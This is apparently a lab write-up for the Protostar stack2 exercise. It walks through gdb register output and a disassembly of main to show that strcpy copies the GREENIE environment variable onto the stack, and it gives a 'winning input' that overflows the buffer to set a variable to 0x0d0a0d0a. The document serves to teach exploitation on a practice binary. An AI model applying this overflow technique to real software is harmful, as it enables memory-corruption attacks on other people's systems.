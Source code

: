 # For Stack2 in Protostar  

The below output explores how `getenv()` gets its argument from the stack, and returns its return value in `eax`.
```
Temporary breakpoint 4 at 0x804849d: file stack2/stack2.c, line 12.
Starting program: /opt/protostar/bin/stack2 

Temporary breakpoint 4, main (argc=1, argv=0xbffff744) at stack2/stack2.c:12
12	in stack2/stack2.c
0x0804849d <main+9>:	 c7 04 24 e0 85 04 08	mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:	 e8 d3 fe ff ff	call   0x804837c <getenv@plt>
0x080484a9 <main+21>:	 89 44 24 5c	mov    DWORD PTR [esp+0x5c],eax
(gdb) ni
0x080484a4	12	in stack2/stack2.c
0x080484a4 <main+16>:	 e8 d3 fe ff ff	call   0x804837c <getenv@plt>
0x080484a9 <main+21>:	 89 44 24 5c	mov    DWORD PTR [esp+0x5c],eax
(gdb) ni
0x080484a9	12	in stack2/stack2.c
0x080484a9 <main+21>:	 89 44 24 5c	mov    DWORD PTR [esp+0x5c],eax
(gdb) info registers
eax            0xbffff93a	-1073743558
ecx            0x45	69
edx            0x5	5
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff630	0xbffff630
ebp            0xbffff698	0xbffff698
esi            0x0	0
edi            0x0	0
eip            0x80484a9	0x80484a9 <main+21>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/s $eax
0xbffff93a:	 "testEnvVir"
(gdb) 
```

The below output is the disassembly of the main function of stack2.

```
(gdb) disassemble
Dump of assembler code for function main:
0x08048494 <main+0>:	push   ebp
0x08048495 <main+1>:	mov    ebp,esp
0x08048497 <main+3>:	and    esp,0xfffffff0
0x0804849a <main+6>:	sub    esp,0x60
0x0804849d <main+9>:	mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:	call   0x804837c <getenv@plt>
0x080484a9 <main+21>:	mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:	cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:	jne    0x80484c8 <main+52>
0x080484b4 <main+32>:	mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:	mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:	call   0x80483bc <errx@plt>
0x080484c8 <main+52>:	mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:	mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:	mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:	lea    eax,[esp+0x18]
0x080484dc <main+72>:	mov    DWORD PTR [esp],eax
0x080484df <main+75>:	call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:	mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:	cmp    eax,0xd0a0d0a
0x080484ed <main+89>:	jne    0x80484fd <main+105>
0x080484ef <main+91>:	mov    DWORD PTR [esp],0x8048618
---Type <return> to continue, or q <return> to quit---
0x080484f6 <main+98>:	call   0x80483cc <puts@plt>
0x080484fb <main+103>:	jmp    0x8048512 <main+126>
0x080484fd <main+105>:	mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:	mov    eax,0x8048641
0x08048506 <main+114>:	mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:	mov    DWORD PTR [esp],eax
0x0804850d <main+121>:	call   0x80483ac <printf@plt>
0x08048512 <main+126>:	leave  
0x08048513 <main+127>:	ret    
End of assembler dump.
```

`strcpy` copies the value of `GREENIE` from *0xbffffa39* to *0xbffff7a8*.

`mov    eax,DWORD PTR [esp+0x58]` will move the value of a variable from the stack to `eax`. 
Apparently that is the value that we have to override.

So what we need to do is to override the variable with *0x0a0d0a0d* (in big-endian format).


### Winning input:
```
\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x0a\x0d\x0a\x0d
```

END